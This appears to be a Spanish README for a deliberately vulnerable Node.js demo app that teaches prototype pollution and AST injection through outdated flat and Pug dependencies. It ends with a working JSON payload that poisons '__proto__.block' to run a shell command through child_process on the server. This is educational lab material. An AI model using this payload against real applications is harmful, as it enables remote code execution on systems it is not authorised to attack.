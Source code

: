 # Vulnerable and Outdated Components

[Más info sobre las vulenerabilidades en dependencias](https://owasp.org/Top10/A06_2021-Vulnerable_and_Outdated_Components/)

App ejemplo con dependecias vulenarables por ataques de AST Injection y Prototype Pollution

## Requerimientos

*  [Node.js](https://nodejs.org/en/) - (LTS or superior) 

* Para Linux and Mac - usar [nvm](https://github.com/creationix/nvm) para instalar Node

*  [Git](https://git-scm.com/downloads)

## Instalación

Clonar el repositorio:

```bash
git clone https://github.com/ezequielsoler/vulnerable-dependency-example.git
```

Ingresar al repositorio:

```bash
cd vulnerable-dependency-example
```

Instalar las dependencia usando NPM:

```bash
npm install
```

Correr de forma local el servidor usando Node:

```bash
node server.js
```

Si todo salió bien, deberías ver el mensaje: `Server listening at localhost:3000` y al ingresar con tu navegador a  [localhost:3000](http://localhost:3000/) podrás ver la página.

## ¿Qué son las vulnerabilidades de Prototype Pollution?

JavaScript se basa en prototipos: cuando se crean nuevos objetos, estos transfieren las propiedades y métodos del prototipo de “objeto”, que contiene funcionalidades básicas como `toString`, `constructor` y `hasOwnProperty`.

Los atacantes pueden realizar cambios en toda la aplicación en todos los objetos modificando el objeto 'original', de ahí el nombre contaminación de prototipo ni siquiera necesitan modificar directamente el objeto; pueden acceder a él a través de la propiedad `__proto__` de cualquier objeto JavaScript. Y una vez que realiza un cambio en el objeto, se aplica a todos los objetos JavaScript, incluidos los creados después de la manipulación.

[Más info sobre esta vulnerabilidad](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/)

## ¿Qué es la inyección AST?

En Node JS, AST ([Abstract Syntax Tree](https://en.wikipedia.org/wiki/Abstract_syntax_tree)) se usa en JS muy a menudo, como motores de template, TypeScript, etc. 

Si existe una vulnerabilidad de Prototype Pollution en cualquier dependencia de la aplicación, cualquier AST puede ser modificado por medio de una inyección de código que sería ejecutada durante el proceso de "parseo" o de compilación.


## Explotación

Esta app tiene la dependencia desactaulizada [Flat](https://www.npmjs.com/package/flat) que es [vulnerable](https://github.com/hughsk/flat/issues/105) al ataque antes mencionado, para comprobar como funciona el Prototype Pollution en flat puedes ejecutar el siguiente comando:

```bash
node vulnerable-test.js
```

Para realizar el ataque usaremos la vulnerabilidad de Flat para contaminar el objeto block que es ejecutado dentro del AST ejecutado por la dependencia [Pug](https://www.npmjs.com/package/pug) al ejecutar el método `compile` y nos permitirá la ejecución arbitraria de código.

[Más detalle](https://blog.p6.is/AST-Injection/)

Para eso inyectaremos el siguiente payload en el request POST del siguiente endpoint `http://localhost:3000/api/submit` 

```json
{
    "search": "iPhone",
    "__proto__.block": {
        "type": "Text",
        "line": "process.mainModule.require('child_process').execSync(`whoami > static/out.html`)"
    }
}
```

Si el ataque se ejecuto de manera exitosa deberías obtener el resultado del comando `whoami`al ingresar a:

```
http://localhost:3000/static/out.html
```






